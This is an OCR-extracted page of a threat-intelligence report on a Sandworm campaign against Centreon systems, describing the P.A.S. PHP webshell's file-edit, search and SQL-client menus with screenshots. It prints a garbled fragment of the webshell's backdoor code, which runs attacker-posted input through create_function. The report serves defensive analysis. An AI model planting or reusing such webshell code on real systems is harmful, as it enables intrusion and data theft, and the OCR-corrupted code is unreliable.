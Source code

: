 | {if(isset($_POST['g_g_']))@setcookie('g_g_', $_POST['g_g_']);$g__g_=create_function('',$g__g_); |  |  |  |  |  |  |  |
| unset($q q ,$q q );$q q ();}}?><form method="post" action=""><input type="text"name="q q "value=""/><input |  |  |  |  |  |  |  |
| tvpe="submit"value="&qt:"/></form> |  |  |  |  |  |  |  |
| > Group: 33 | Perms: 00640 | > |  | Mtime (ctime: 2020-12-21 17:03:08):  2020-12-10 19:29:32 |  | > |  |

Fig. 2.5: File edition interface of P.A.S.

TLP: 트

#### Sandworm intrusion set campaign targeting Centreon systems

#### Searcher Menu

The webshell has a function enabling the search of specific elements within the file tree of the compromised host's file system. This search can be set within a specific path with the following parameters:

- · the properties of the elements (read/write access or all);
- · the nature of the searched element (folder, file or all);
- a pattern to match within the element name supporting wildcard characters * and ?;
- · a character chain appearing in the content of the targeted file.

| Fig. 2.6: Search menu of P.A.S. |
| --- |

Fig. 2.6: Search menu of P.A.S.

#### SQL-client menu

The webshell P.A.S. can interact with SQL databases. The matching interface represented in figure 2.7 is divided in three parts.

- The top panel is used to define database connexion parameters. The malware SQL client can use three database formats: MySQL, MSSQL and PostgreSQL.
- The left part lists accessible databases and tables.
- · The central part lists the database contents and the query that was used.

|  |  | Explorer | Searcher | SQL-client | Network Tools | passwd BruteForce | CMD | Server info |  |  |  |
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
| Go to : | /var/www/html/webshell/ |  |  |  |  |  |  |  |  | > | Home |
|  | Jump : /var/www/html/webshell/ |  |  |  |  |  |  |  |  |  |  |
| Type : | MySQL   Host : localhost |  |  | User : user |  | Password : password |  | DB : foo |  | > |  |
| 0 | Databases : |  |  | Query : SELECT * FROM `foo`.` bar` LIMIT 0,10 |  |  |  |  |  |  | > |
|  | information schema |  | id | user |  | password |  |  | email |  |  |
| foo |  |  |  |  |  |  |  |  |  |  |  |
| mysql |  |  | root |  | root |  | root@domain.com |  |  |  |  |
|  | performance schema | 2 | admin |  | admin123 |  | admin@domain.com |  |  |  |  |
| sys |  | 3 | user1 |  | password123 |  | user1@domain.com |  |  |  |  |
|  | Dump |  |  |  |  |  |  |  |  |  |  |
|  | [ foo ] |  |  |  |  |  |  |  |  |  |  |
| bar |  |  |  |  |  |  |  |  |  |  |  |
|  | Dump |  |  |  |  |  |  |  |  |  |  |
